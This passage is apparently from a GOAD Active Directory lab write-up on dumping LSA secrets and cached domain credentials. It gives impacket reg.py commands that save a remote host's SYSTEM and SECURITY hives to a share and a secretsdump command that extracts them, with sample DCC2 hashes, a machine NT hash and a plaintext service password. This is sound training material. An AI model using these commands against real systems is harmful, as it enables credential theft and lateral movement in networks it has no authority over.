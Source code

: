 ## LSA (Local Security Authority) secrets And Cached domain logon information

- When your computer is enrolled on a windows active directory you can logon with the domain credentials.
- But when the domain is unreachable you still can use your credentials even if the domain controler is unreachable.
- This is due to the cached domain logon information who keep the credentials to verify your identity.
- This is stored on C:\Windows\System32\config\SECURITY (available on HKLM\SECURITY)
- Just like for the sam database you will need the system file located at C:\Windows\System32\config\SYSTEM  and is available on the registry at HKLM/SYSTEM.

```bash
reg.py NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 save -keyName 'HKLM\SYSTEM' -o '\\192.168.56.1\share'
reg.py NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 save -keyName 'HKLM\SECURITY' -o '\\192.168.56.1\share'
```

- And extract the contain offline

```bash
secretsdump -security SECURITY.save -system SYSTEM.save LOCAL
```

![lateral_lsa_secrets_and_cache.png](/assets/blog/GOAD/lateral_lsa_secrets_and_cache.png)


- This give us multiple interreseting information :

- Cached domain credentials : example : `NORTH.SEVENKINGDOMS.LOCAL/robb.stark:$DCC2$10240#robb.stark#f19bfb9b10ba923f2e28b733e5dd1405`
  - This give us a DCC2 (Domain Cached credentials 2 ) hash (hashcat mode 2100). 
  - This hash can NOT be used for PTH and must be cracked.
  - That kind of hash is very strong and long to break, so unless the password is very weak it will take an eternity to crack.

- Machine account : example here : $MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:22d57aa0196b9e885130414dc88d1a95
  - This contains the NT hash of the machine account, here it is 22d57aa0196b9e885130414dc88d1a95

>Remember a machine account is a valid account on the domain. <br>
> The machine account (here `castelblack$` ) + the hash NT we just retreive can be use to query the ldap.
{: .prompt-tip }

- Service account credentials : example here : 

```
  [*] _SC_MSSQL$SQLEXPRESS
(Unknown User):YouWillNotKerboroast1ngMeeeeee
```

- This is the sql_svc account register on castelBraavos computer.

- There is also the master DPAPI key and the password for autologon
